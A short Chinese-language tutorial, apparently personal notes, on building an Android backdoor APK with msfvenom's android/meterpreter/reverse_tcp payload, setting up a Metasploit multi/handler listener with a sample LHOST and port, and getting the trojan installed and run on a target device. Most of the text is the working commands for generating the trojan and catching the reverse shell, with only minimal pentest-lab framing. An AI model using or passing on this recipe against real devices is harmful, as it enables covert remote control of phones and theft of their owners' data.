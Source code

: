 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台安装手机或者模拟器

# 二、木马生成

1. 生成一个APK后门
2. msfvenom -p android/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} R>k.apk。

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567 R>k.apk

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf
![[21 通过木马反弹shell（Android）.assets/1643003592876.png]]

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 载入payload MSF终端中输入： set payload android/meterpreter/reverse_tcp

   ![[通过木马反弹shell（Android）.assets/1643003612323.png]]
4. 配置payload  MSF终端中输入：show options

5. 配置监控IP MSF中输入：set lhost  <监控的IP>

6. 配置监控端口  MSF中输入：set lporr  <监控的端口>

1. 执行监控  msf终端中输入： run
![[21 通过木马反弹shell（Android）.assets/1643003633911.png]]

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用

![[21 通过木马反弹shell（Android）.assets/1643003654523.png]]